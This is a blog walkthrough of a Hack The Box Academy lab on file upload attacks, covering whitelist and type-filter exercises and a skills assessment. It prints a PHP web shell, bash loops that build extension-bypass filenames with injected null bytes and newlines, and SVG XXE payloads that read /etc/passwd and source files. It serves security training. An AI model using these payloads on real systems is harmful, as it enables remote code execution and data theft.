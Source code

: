 ```yaml
---
layout: post
title:  "Hack The Box - Academy - File Upload Attacks"
description: "Follow this comprehensive walkthrough of the Hack The Box Academy File Upload Attacks Skills Assessment. Master file upload attack techniques to exploit vulnerable web applications using Caido, perfect for enhancing your penetration testing skills and preparing for HTB challenges."
date:   2024-10-23 18:48
image:  /images/htb/file-upload-attacks/logo.png
tags:   [file-upload-attacks,cbbh]
categories: [htbacademy]
---
```


### Explore this detailed walkthrough of Hack The Box Academy's File Upload Attacks module.

>
<b>Links:</b>
<br/>
<a href="https://academy.hackthebox.com/module/136/section/1259">File Upload Attacks</a><br/>
<a href="https://jacozwarts.github.io/images/htb/file-upload-attacks/File_Upload_Attacks_Module_Cheat_Sheet.pdf">File Upload Attacks - Cheat Sheet</a><br/>
<a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst">PayloadsAllTheThings - PHP Extensions List</a><br/>
<a href="https://en.wikipedia.org/wiki/List_of_file_signatures">List of file signatures</a><br/>


<hr/>

## Notes:
Filter image content types from Content-Type wordlist:

**Wordlist path:** <br/>
`/usr/share/wordlists/seclists/Miscellaneous/Web/content-type.txt`
```
cat content-type.txt | grep 'image/' > image-content-types.txt
```

## Whitelist Filters - Exercise

### The above exercise employs a blacklist and a whitelist test to block unwanted extensions and only allow image extensions. Try to bypass both to upload a PHP script and execute code to read `"/flag.txt"`

Create a `custom wordlist` by executing the below bash script:
```
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps' '.phar' '.phtml'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

#### Step-by-Step Guide to Automating File Upload Testing with Caido
- Launch Caido and navigate to the Automation section.

- Initiate an Upload Request: 
Create an upload request and set the filename as the automation payload.

- Use the Wordlist:
Copy the content from the specified wordlist and paste it into the Simple List input field within Caido.

- Start the Automation
Begin the automation process by clicking the start button.

- Review the Results
Once the automation completes, review the results.

- Filter the Results
Sort the results by length in descending order and look for responses with a length of `193`.

- Test the Successful File Extensions
Identify which file extensions were successfully uploaded and test them further for potential vulnerabilities.

`Payload:`

```
<?php system($_REQUEST['cmd']); ?>
```

![Caido White list Request](/images/htb/file-upload-attacks/white-list-filter-caido-request.png)

![Caido White list Result](/images/htb/file-upload-attacks/white-list-filter-caido-result.png)

![Webshell](/images/htb/file-upload-attacks/white-list-filter-web-shell.png)

Navigate through the folders to locate the `flag.txt` file.

![Webshell](/images/htb/file-upload-attacks/white-list-filter-flag-result.png)
<hr/>

## Type Filters - Exercise

### The above server employs Client-Side, Blacklist, Whitelist, Content-Type, and MIME-Type filters to ensure the uploaded file is an image. Try to combine all of the attacks you learned so far to bypass these filters and upload a PHP file and read the flag at `"/flag.txt"`

Use a png file and add the .phtml extension in the filename add the web shell below the MIME type and execute the upload functionality.
![Type filters - Request](/images/htb/file-upload-attacks/type-filters-request.png)
![Type filters - Result](/images/htb/file-upload-attacks/type-filters-result.png)

<hr/>

## Skills Assessment
><b>Overview:</b>
You are contracted to perform a penetration test for a company's e-commerce web application. The web application is in its early stages, so you will only be testing any file upload forms you can find.<br/><br/>
Try to utilize what you learned in this module to understand how the upload form works and how to bypass various validations in place (if any) to gain remote code execution on the back-end server.

### Extra Exercise
Try to note down the main security issues found with the web application and the necessary security measures to mitigate these issues and prevent further exploitation.


### Try to exploit the upload form to read the flag found at the root directory "/".
During our analysis of the web application, we identified a file upload feature located on the 'Contact Us' page.

#### 1. Identify File Storage: 
When uploading an image, the application does not reveal where the uploaded file is stored.

#### 2. Access Source Code: 
To understand the file storage mechanism, obtain the source code of the upload.php file.

#### 3. Monitor POST Method: 
Observe that when an image is uploaded, the POST method returns the image result.

#### 4. Test for Vulnerability: 
Use an SVG file to test if the application is vulnerable to `XML External Entity (XXE)` attacks. I used the payload below to check if we can read the contents of the `/etc/passwd` file.

```
Content-Disposition: form-data; name="uploadFile"; filename="SVG-XXE-Injection.svg"
Content-Type: image/svg+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

![Skills Asssessment XXE - Result](/images/htb/file-upload-attacks/skills-assessment-xxe-test.png)

#### 5. Extract Upload.php source code:
```
Content-Disposition: form-data; name="uploadFile"; filename="SVG-XXE-Injection.svg"
Content-Type: image/svg+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```

![Skills Asssessment XXE - Upload.php Source Code](/images/htb/file-upload-attacks/skills-assessment-upload-source-code.png)

Use Caido to base64 decode the payload and analyze the `upload.php` source code.

![Decode payload with Caido](/images/htb/file-upload-attacks/skills-assessment-decode-caido.png)

`Uploade.php source code decrypted:`

![Upload.php source code decrypted](/images/htb/file-upload-attacks/skills-assessment-upload-source-code-decrypted.png)

After analyzing the source code, you'll be able to identify the upload directory and the format of the saved file. One issue I encountered was related to time zones; I was in the AEST timezone with a different date to the server. Additionally, you can view the code to bypass the image filters. Now, upload a new image containing a web shell.

Leverage the custom wordlist below to generate potential extensions that are not blacklisted. Begin by sending an upload request to Caido Automate, mark the `filename` as the `placeholder` and load the wordlist using the Simple List option. In the request body, insert the PHP web shell after the `MIME type`, then click "Run" to initiate the automation. Finally, review the results to identify the allowed extensions.

Create a `custom wordlist` by executing the below bash script:

```
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps' '.phar' '.phtml'; do
        echo "Zwarts$char$ext.png" >> wordlist.txt
        echo "Zwarts$ext$char.png" >> wordlist.txt
        echo "Zwarts.png$char$ext" >> wordlist.txt
        echo "Zwarts.png$ext$char" >> wordlist.txt
    done
done
```

```
<?php system($_REQUEST['cmd']); ?>
```
![Caido Automate Request](/images/htb/file-upload-attacks/skills-assessment-caido-automate.png)

`Look for results that has a content length > 190`

![Caido Automate Results](/images/htb/file-upload-attacks/skills-assessment-caido-automate-results.png)

![Flag Result](/images/htb/file-upload-attacks/skills-assessment-flag-result.png)

<hr/>